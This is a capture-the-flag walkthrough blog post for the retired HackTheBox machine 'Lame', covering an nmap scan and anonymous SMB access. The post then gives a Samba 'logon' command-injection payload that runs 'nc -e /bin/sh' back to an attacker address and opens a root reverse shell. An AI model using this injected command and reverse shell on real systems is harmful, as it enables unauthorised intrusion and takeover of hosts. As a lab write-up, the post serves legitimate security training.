```yaml
---
layout: post
title: CTF Walkthrough - HacktheBox Lame
toc: true
subtitle: Retired Machine
comments: false
---
```


## Lame ![propic](/pictures/lame/lame.png)

Start off with a network scan:
```
nmap -sV -sC -oA nmap/lame 10.10.10.3
```
![nmap](/pictures/lame/nmap.png)

There are open ports on TCP 21, 22, 139, 445.
Initally, I am interested in the anonymous logon in ftp(21), but there are no notable files there.

So, I divert my attention to the available smbshare(139,445) and attempt to login to the tmp directory via the command:
```
smbclient -N //10.10.10.3/tmp
```
I am able to successfully logon anonymously to the smb share and list the relevant commands.

![smb](/pictures/lame/smb.png)

I notice that the 'logon' command is available in smb. So, I can create a listener and reverse shell with the following commands:

```
nc -lvnp 6200
logon "./=`nohup nc -e /bin/sh <attacker_ip> 6200`"
```
I receive a shell and we are now root. From there, I am easily able to capture both the user.txt and root.txt under /home/makis/ and /root/.

![root](/pictures/lame/root.png)
